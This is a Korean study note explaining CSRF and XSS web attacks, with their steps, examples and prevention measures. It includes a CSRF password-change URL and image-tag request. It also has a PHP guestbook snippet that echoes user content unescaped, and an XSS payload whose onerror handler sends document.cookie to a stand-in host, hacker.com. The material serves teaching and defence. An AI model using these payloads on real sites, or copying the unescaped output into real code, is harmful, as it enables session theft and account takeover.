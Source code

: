 ## CSRF

> Cross-Site Request Forgery (사이트간 위조 요청)
> 

사용자의 의지와 무관하게 공격자가 의도한 행위를 특정 웹사이트에 요청하게 하는 공격

1. 공격할 사이트의 취약점 분석
2. 로그인 정보 변경, 자금 송금 등 원하는 요청을 위조
3. 메일, 웹사이트 등에 요청이 삽입된 하이퍼링크를 심어 놓고, 클릭 시 요청이 자동으로 전송

### 예시

예를 들어 아래와 같은 하이퍼링크를 메일로 보내고, 타겟 사이트에 로그인 된 상태로 클릭 시 비밀번호가 변경된다.

‘http://example.com/user.do?cmd=user_passwd_change&user=admin&newPwd=1234’

혹은 링크를 통해 특정 페이지로 이동하도록 유도하고 다음과 같은 이미지 태그를 통해 공격한다.

`<img src= "https://travel.service.com/travel_update?.src=Korea&.dst=Hell">`

사용자가 공격용 페이지를 열면, 이미지 파일을 받아오기 위해 위 url을 연다.

이용자의 의지와 무관하게 요청이 실행된다.

### 방지법

CSRF 토큰 사용

민감한 작업 시 2차 인증 혹은 CAPTCHA 사용

GET/POST를 구분하여 이미지 태그를 사용한 공격 예방

사용하지 않는 웹 애플리케이션 로그아웃

## XSS

> Cross-site Scripting
> 

악의적인 사용자가 공격하고자 하는 사이트에 스크립트를 넣는 기법

1. 공격할 사이트의 취약점 분석
2. 공격할 사이트에 스크립트를 삽입
3. 사용자가 사이트에 접속하면 삽입된 코드를 실행하여 의도치 않은 행동 수행

스크립트 태그, 링크 태그, 이벤트 속성 등으로 스크립트를 실행한다.

쿠키, 세션 토큰 등의 민감 정보를 탈취한다.

### 예시

아래와 같이 사용자가 입력하는 내용을 출력하는 방명록 프로그램이 있다.

```
<p><?php echo htmlspecialchars($name); ?>님의 말: </p>
<?php echo $content; ?>
```

name과 content를 아래와 같이 설정하면 사용자의 쿠키가 외부로 전송된다.

```
<p>Hello! I am a hacker.</p>
<img src="#" width="0" height="0" onerror="this.src='http://hacker.com/gatherCookie.php?cookie='+encodeURIComponent(document.cookie);" />
```

### 방지법

입력 필터를 사용하여 모든 파라미터에 대해 검증한다(<> 등의 문자를 필터링)

스크립트 태그, 이벤트 속성, 자바스크립트 링크 등을 제대로 막아준다.

쿠키의 보안 옵션을 사용하여 TLS 상에서만 사용하게 한다.

스크립트 실행에 대한 조건을 설정해 알 수 없는 스크립트가 실행되는 것을 예방한다.